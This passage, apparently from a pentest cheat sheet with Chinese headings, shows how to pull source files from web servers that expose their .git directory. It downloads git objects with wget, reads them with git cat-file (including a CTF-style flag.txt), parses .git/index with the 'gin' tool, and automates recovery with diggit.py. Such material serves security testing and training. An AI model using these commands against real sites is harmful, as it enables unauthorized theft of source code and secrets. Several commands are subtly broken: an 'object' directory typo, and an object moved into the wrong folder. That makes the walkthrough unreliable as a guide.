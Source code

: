 ```powershell
```

2. 访问树 323240a3983045cdc0dec2e88c1358e7998f2e39

```powershell
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
    040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
    100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
    040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
    100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
    040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

3. 读数据 (flag.txt)

```powershell
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```

### Recovering the content of .git/index

恢复.git/index的内容

使用git index文件解析器，需要用到Python3https://pypi.python.org/pypi/gin

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

恢复罗列在index文件上的每个文件的名字和对应的sha1，允许我们在文件上重用之前的方法。

```powershell
$ gin .git/index | egrep -e "name|sha1" 
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```



### Automatic way : diggit.py

自动化工具

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```
